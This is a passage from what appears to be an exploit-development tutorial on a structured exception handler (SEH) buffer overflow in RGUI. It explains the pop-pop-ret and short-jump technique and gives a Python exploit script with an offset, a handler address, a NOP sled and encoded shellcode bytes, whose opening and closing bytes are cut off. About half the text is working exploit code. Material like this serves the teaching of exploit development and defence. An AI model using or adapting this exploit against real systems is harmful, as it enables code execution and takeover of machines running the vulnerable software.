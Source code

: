 ```python
buf += b"\x9b\xc4\x69\xc0\xe9\xc1\x36\x46\x01\xbb\x27\x23\x25"
buf += b"\x68\x47\x66\x46\xef\xdb\xea\xa7\x8a\x5b\x88\xb7"
payload += buf

f.write(payload)
f.close()
```
{% endcode %}

...and send it to RGUI. Observe the crash, continue running the program until the breakpoint at `0x637412c8` is hit and inspect the memory at `0141E768`, where our SEH record, that we've just overflowed, lives. This is where we will jump to after the `pop pop ret` instructions will complete at `0x637412c8`:

![Payload is organized in program's memory](<../../../.gitbook/assets/image (1009).png>)

From the above screenshot, we can derive the following key point - once we land on `0141E768` (red zone), which contains the 4 bytes representing our string `BOOM`, we need to jump over to our shellcode in the blue zone.

### Jumping Over to Shellcode

We need to replace the `BOOM` string in our exploit code (which represents the address of the next SEH record) with a simple relative short `jmp` instruction that jumps 6 bytes further into the code. The instuction can be encoded using the following bytes `eb 06`. Additionally, since the `jmp` instruction is only 2 bytes, we'd need to supplement it with 2 NOP bytes to ensure the exploit reliability. So, `BOOM` should be replaced with bytes `eb 06 90 90` like so:

```python
# payload += b"BOOM"
payload += b"\xeb\x06\x90\x90"
```

Note that even though we say we're jumping over 6 bytes into the code, but in fact, we are jumping over 8 bytes, because the `jmp` instruction itself is 2 bytes, so therefore 2+6=8. Essentially, we are jumping over the SEH record itself after which our shellcode lives.

Our payload visually should now look like this:

![](<../../../.gitbook/assets/image (1023).png>)

### Exploit

Let's see the full updated exploit code now:

{% code title="exploit.py" %}
```python
f = open("payload.txt", "wb")

# Offset into the first SEH record
payload = b"A" * 1012

# Address of the next SEH record
# payload += b"BOOM"
payload += b"\xeb\x06\x90\x90"

# Current SEH handler (pop pop ret)
payload += b"\xc8\x12\x94\x63"

# NOP sled for reliability
payload += b"\x90"*10

# shellcode
buf = b""
buf += b"\xba\xbf\xaf\x65\x1b\xd9\xc4\xd9\x74\x24\xf4\x5d\x31"
buf += b"\xc9\xb1\x31\x31\x55\x13\x83\xed\xfc\x03\x55\xb0\x4d"
```
